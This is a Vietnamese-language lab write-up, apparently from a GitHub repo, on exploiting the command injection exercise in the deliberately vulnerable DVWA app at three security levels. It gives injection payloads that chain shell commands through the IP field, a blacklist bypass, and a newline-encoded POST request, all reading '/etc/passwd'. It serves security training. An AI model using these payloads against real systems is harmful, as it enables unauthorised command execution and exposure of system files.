



# Command Injection - DVWA

## 🛡️ Vulnerability: Command Injection  
Mức độ: **LOW**, **MEDIUM**, **HIGH**

---

## 🔹 LEVEL: LOW

### 📌 Description:
Web cho chúng ta nhập input đầu vào là 1 địa chỉ IP sau đó nó sẽ thực hiện lệnh ping đến địa chỉ IP đó và thực hiện trả về kết quả ở bên dưới
Thực hiện nhập một địa chỉ IP 8.8.8.8 và submit:

Ví dụ: Nhập địa chỉ IP `8.8.8.8` và bấm Submit.


### 🎯 Goal:
Làm cho server thực hiện các lệnh command ngoài ý muốn thông qua đầu vào.

### 🔍 Phân tích:
- Source code không thực hiện kiểm tra đầu vào.
- Input được đưa trực tiếp vào hàm `shell_exec()`.
- Ta có thể nối nhiều mệnh đề OS command vào bằng các ký tự đặc biệt.

Ví dụ:

```
8.8.8.8; ls /
```

Lúc này câu lệnh thực thi sẽ là:

```
ping -c 4 8.8.8.8; ls /
```



> Kết quả là cả lệnh `ping` và `ls /` đều được thực hiện.

Hoặc kéo dài ra nhiều mệnh đề hơn:

```
8.8.8.8; ls /; cat /etc/passwd
```

---

## 🔸 LEVEL: MEDIUM

### 🔍 Phân tích:
Ở mức này, dev đã **chặn ký tự `;` và `&&`** bằng cách đưa chúng vào **blacklist**.

Tuy nhiên, vẫn còn nhiều ký tự khác giúp nối thêm mệnh đề:

- `|` : chuyển output của lệnh 1 thành input của lệnh 2  
- `&` : chạy lệnh ở background  
- `` `command` `` : thực thi lệnh và trả về output  
- `$(command)` : giống như backtick  
- `||` : logic OR – chạy lệnh thứ 2 nếu lệnh đầu lỗi  

### 🧪 Thực hành:

```
8.8.8.8 & ls / & cat /etc/passwd
8.8.8.8 | ls / | cat /etc/passwd
8.8.8.8a || ls /
```

---

## 🔺 LEVEL: HIGH

### 🔍 Phân tích:
- Hầu hết các ký tự có khả năng nối mệnh đề đều đã bị chặn.
- Hàm `trim()` được dùng để loại bỏ khoảng trắng, gây khó khăn hơn.

Tuy nhiên vẫn tồn tại **lỗi trong blacklist**:

```text
Ký tự bị chặn: "| " (pipe + dấu cách)
```

Vì vậy nếu viết là `|cat`, hoặc ` |cat`, thì sẽ **không bị blacklist chặn**.

Ví dụ:

```
8.8.8.8 |cat /etc/passwd
```

> ⚠️ Đây là lỗi dev sơ suất, không áp dụng cho mọi trường hợp.

---

### 🧪 Cách bypass tối ưu: **Mã hóa xuống dòng**
Sử dụng `%0A` để encode ký tự xuống dòng (`
`), PHP sẽ tự động decode:

Ví dụ gói POST:

```http
POST /vulnerabilities/exec/source/high.php
Content-Type: application/x-www-form-urlencoded

ip=8.8.8.8%0Als+%2F
```

- `%0A` → `
`
- Tác động trực tiếp đến lệnh shell

### ✅ Thực hành giả thuyết:

```
8.8.8.8%0Acat /etc/passwd
```

> ✅ Kết quả: **Giả thuyết đúng**

---

## 📌 Tổng kết

| Mức độ | Kỹ thuật khai thác |
|--------|--------------------|
| LOW    | `;` để nối nhiều command |
| MEDIUM | `|`, `&`, `||`, `` ` ``, `$()` |
| HIGH   | Lỗi blacklist + `%0A` (newline encode) |
